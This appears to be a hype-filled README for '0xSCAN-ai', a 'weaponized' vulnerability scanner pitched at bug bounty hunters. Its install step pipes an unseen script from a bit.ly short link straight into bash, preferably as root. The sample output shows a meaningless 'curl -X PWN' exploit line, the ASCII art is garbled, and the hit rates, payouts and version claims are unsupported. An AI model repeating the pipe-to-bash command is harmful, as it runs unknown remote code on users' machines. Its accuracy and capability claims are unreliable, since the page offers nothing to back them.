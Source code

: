 # <img src="https://i.imgur.com/JQ7lFdW.png" width="28"> 0xSCAN-ai 

> *"The weaponized scanner for elite bug hunters"*  
> **By [@OuLrishi](https://x.com/OuLrishi)**
/ /_ ______ _ __
_____ \____ \____ \ / / /
/ \ |> > |> > /
/_______ / /| / /_/
/|| ||

Copy

### <img src="https://i.imgur.com/L7LQq3X.png" width="20"> **Core Features**
```diff
+ 0DAY Detection Engine (15+ vuln classes)
+ AI-Powered Exploit Crafting (Ollama v7.3)
- No false positives guarantee
<img src="https://i.imgur.com/3Jm4wqE.png" width="20"> Quickstart
bash
Copy
# INSTALL (Root not required but recommended)
wget -qO- https://bit.ly/0xscan | bash

# SCAN MODES
0xscan --stealth file.js          # Low-profile scan
0xscan --aggressive target.com    # Full pwnage mode
<img src="https://i.imgur.com/9qQ7ZqQ.png" width="20"> Bounty Matrix
Vuln Type	Payout Range	Hit Rate
Remote Code Execution	█████ $15k	92%
SQL Injection	███ $5k	88%
SSRF	████ $10k	85%
<img src="https://i.imgur.com/5m6QZ9z.png" width="20"> Why Pentesters Love This
Copy
[✔] Auto-generates HackerOne reports
[✔] Finds shadow APIs in 0.37s avg
[✔] 0-day heuristics (Patent Pending)
[✔] Curated by [@OuLrishi](https://x.com/OuLrishi)
<img src="https://i.imgur.com/V2YtzV3.png" width="20"> Sample Output
python
Copy
[!] CRITICAL: RCE Detected (CVE-2023-32467)
    > Attack Surface: /api/v1/process
    > Confidence: ████████ 98%
    > Exploit: curl -X PWN http://target.com/api/exploit
    > Bounty: $3k-$15k (Verified)
Pro Tip: Chain with nuclei and metasploit for maximum impact ⚡

<sub>⚠️ Legal: For authorized testing only. Don't be evil.</sub>
<sub>🐦 Follow creator: @OuLrishi for 0day alerts</sub>
